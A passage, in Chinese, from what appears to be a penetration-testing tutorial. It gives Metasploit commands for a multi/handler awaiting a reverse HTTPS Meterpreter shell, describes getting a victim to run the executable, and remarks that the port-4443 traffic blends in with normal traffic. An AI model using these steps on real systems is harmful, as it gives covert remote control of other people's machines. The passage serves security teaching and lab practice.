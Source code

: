现在我们将设置处理程序。在 metasploit 中输入以下内容：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.177.170
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false
exploit –j

```

一旦完成，命令的示例如下截图所示：

![利用客户端配置](img/477-1_12_25.jpg)

现在我们准备让受害者运行我们的可执行文件。在我们将可执行文件移动到受害者机器后，双击文件，返回到 metasploit 处理程序，并观察结果。这一点的一个例子如下截图所示：

![利用客户端配置](img/477-1_12_26.jpg)

从这里开始，取决于我们想要做什么。在 Meterpreter shell 中输入我们之前使用过的一些命令。这里的额外好处是我们所有的通信都会传出到 4443 端口，这看起来会和正常流量一模一样。在 Kali 中，启动 Wireshark 的捕获，观察机器之间的通信。这一点的一个例子如下截图所示：

![利用客户端配置](img/477-1_12_27.jpg)
